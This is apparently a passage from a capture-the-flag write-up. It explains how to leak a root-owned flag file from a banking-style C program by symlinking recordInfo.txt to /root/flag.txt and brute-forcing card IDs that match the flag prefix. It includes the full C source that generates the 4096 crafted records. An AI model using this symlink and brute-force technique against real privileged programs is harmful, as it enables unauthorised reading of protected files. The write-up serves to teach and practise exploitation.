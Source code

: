 We know the flag format starts with `flag{XXX` where each `X` is a hex digit (0-f), so we should be able to generate a customer.dat file with 4096 entries, covering every possible combination that could match the first 8 chars of the flag.

Then if we symlink recordInfo.txt to /root/flag.txt, and our customer card id matches the first 8 chars of the flag, then accessing the activities record with that card id should print the flag for us, since it will be the first line in recordInfo.txt.

## Solution

Generate customer.dat with all possible matches for the first 8 characters of the flag.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>

typedef struct customer{
        char cardId[9];
        int state;
        char name[21];
        char pin[7];
        long long balance;
        char telNumber[16];
        char address[41];
        struct customer * next;
} Customer;

int main() {
        char *filename1="customer.dat";
        char *alphabet="0123456789abcdef";
        char *prefix="flag{";
        FILE *fptr;

        fptr = fopen(filename1,"ab+");
        if (fptr == NULL) {
                printf("failed to open %s\n", filename1);
                exit(1);
        }

        for (int i = 0; i < strlen(alphabet); i++) {
                for (int j = 0; j < strlen(alphabet); j++) {
                        for (int k = 0; k < strlen(alphabet); k++) {
                                Customer cust = {0};
                                strcpy(cust.cardId, prefix);
                                cust.cardId[5] = alphabet[i];
                                cust.cardId[6] = alphabet[j];
                                cust.cardId[7] = alphabet[k];
                                strcpy(cust.name, cust.cardId);
                                strcpy(cust.pin, "111111");
                                strcpy(cust.telNumber, "1800hackers");
                                strcpy(cust.address, "localhost");

                                fseek(fptr, 0L, SEEK_END);
                                fwrite(&cust,sizeof(Customer),1,fptr);
                        }
                }
        }

        fclose(fptr);
        return 0;
}
```
